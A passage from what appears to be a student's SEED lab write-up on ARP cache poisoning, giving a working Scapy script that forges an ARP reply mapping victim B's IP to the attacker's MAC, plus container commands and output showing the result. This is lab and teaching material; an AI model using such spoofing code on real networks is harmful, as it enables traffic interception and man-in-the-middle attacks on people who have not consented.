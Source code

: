 ```
	10.9.0.6                 ether   02:42:0a:09:00:69   C                     eth0
```

#### Results
> - The attack is successful.
> - After executing the attack, Victim A changed IP address of Victim B (10.9.0.6) to point towards the mac address of Attacker M (02:42:0a:09:00:69).

## Task 1.B (using ARP reply)
On host M, construct an ARP reply packet to map B’s IP address to M’s MAC address. Send the packet to A and check whether the attack is successful or not. Try the attack under the following two scenarios, and report the results of your attack:
- **Scenario 1:** B’s IP is already in A’s cache.
- **Scenario 2:** B’s IP is not in A’s cache. You can use the command "arp -d a.b.c.d" to
remove the ARP cache entry for the IP address a.b.c.d.

#### Python [ARP-Reply.py](https://github.com/tyletran08/seed-lab-arp-attack/blob/main/python/ARP-Reply.py)
```python
from scapy.all import *

# Victim A's values
a_mac   = "02:42:0a:09:00:05"   # MAC of A
a_ip    = "10.9.0.5"            # IP of A

# Victim B's IP (we're spoofing this)
b_mac   = "02:42:0a:09:00:06"   # MAC of B
b_ip    = "10.9.0.6"            # IP of B

# Attacker's values
m_mac   = "02:42:0a:09:00:69"   # MAC of M (attacker)
m_ip    = "10.9.0.105"          # IP of M

# Forge an ARP reply to A, saying "B's IP is at M's MAC"
arp_reply = ARP(
    op=2,               # ARP reply
    psrc=b_ip,          # Claim to be B (pretending to be B IP Address)
    hwsrc=m_mac,        # Send M's MAC (attacker's MAC)
    pdst=a_ip,          # Target is A
    hwdst=a_mac         # Send directly to A's MAC 
)

eth = Ether(dst=a_mac, src=m_mac) # Send directly to A
pkt = eth / arp_reply       # Combine Ethernet and ARP layers

sendp(pkt, iface="eth0")    # Send the packet on the specified interface

```

#### Output
```
// Attacker M Container
seed@VM> docker cp ARP-Request.py M-10.9.0.105:/tmp/
seed@VM> docksh M-10.9.0.105
root@M-10.9.0.105:/# python3 /tmp/ARP-Reply.py
	.
	Sent 1 packets.

// Victim A Container
seed@VM> docksh A-10.9.0.5
root@A-10.9.0.5:/# ping 10.9.0.6
	PING 10.9.0.6 (10.9.0.6) 56(84) bytes of data.
	64 bytes from 10.9.0.6: icmp_seq=1 ttl=64 time=0.396 ms
```